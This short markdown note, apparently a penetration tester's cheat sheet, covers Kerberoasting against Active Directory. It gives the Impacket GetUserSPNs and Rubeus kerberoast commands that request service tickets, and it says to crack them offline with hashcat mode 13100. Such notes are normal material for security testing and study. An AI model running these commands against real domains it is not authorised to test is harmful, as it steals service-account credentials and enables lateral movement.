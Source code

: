```yaml
---
id: Kerberoasting
aliases:
  - Kerberoasting
tags:
  - windows
  - AD
  - passwords
  - pivoting
  - kerberos
---
```

## From Linux

1. Use Impacket's GetUserSPNs script:
```bash
GetUserSPNs.py -dc-ip "$DC_IP" -request -outputfile "$OUTFILE" "$DOMAIN/$USER"
```

2. Crack with hashcat mode 13100

## From Windows

1. Use Rubeus with kerberoast:
```powershell
.\Rubeus.exe kerberoast /nowrap
```

2. Crack with hashcat mode 13100

